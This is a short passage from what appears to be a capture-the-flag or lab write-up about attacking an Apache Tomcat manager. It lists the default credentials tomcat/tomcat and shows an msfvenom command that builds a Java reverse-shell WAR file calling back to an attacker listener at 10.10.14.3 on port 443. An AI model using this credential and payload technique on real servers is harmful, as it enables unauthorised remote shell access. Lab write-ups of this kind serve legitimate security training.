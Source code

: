 | Username | Password | Target |
| -- | -- | -- |
| tomcat | tomcat | Tomcat manager |

![Tomcat Manager](images/tomcat_manager.png)

```bash
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.3 lport=443 -f war -o rev.war
Payload size: 12803 bytes
Final size of war file: 12803 bytes
Saved as: rev.war
```

![Tomcat -WAR upload limit](images/tomcat_war_upload_error.png)
